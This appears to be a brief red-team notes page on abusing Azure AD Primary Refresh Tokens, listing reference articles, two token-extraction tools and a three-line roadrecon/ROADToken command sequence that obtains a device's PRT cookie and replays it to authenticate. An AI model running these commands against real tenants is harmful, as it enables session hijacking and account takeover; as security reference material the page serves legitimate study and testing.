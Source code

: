 ```yaml
---
description: Primary Refresh Tokens
---
```


# PRT Abuse

- [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
- [https://aadinternals.com/post/prt/](https://aadinternals.com/post/prt/)
- [https://posts.specterops.io/an-operators-guide-to-device-joined-hosts-and-the-prt-cookie-bcd0db2812c4](https://posts.specterops.io/an-operators-guide-to-device-joined-hosts-and-the-prt-cookie-bcd0db2812c4)

```
$ roadrecon auth --prt-init
Cmd > ROADToken.exe <NONCE>
$ [proxychains] roadrecon auth [-d megacorp.db] --prt-cookie <COOKIE> [-ua '<USER_AGENT>']
```




## Tools

- [https://github.com/dirkjanm/ROADtoken](https://github.com/dirkjanm/ROADtoken)
- [https://github.com/leechristensen/RequestAADRefreshToken/](https://github.com/leechristensen/RequestAADRefreshToken/)
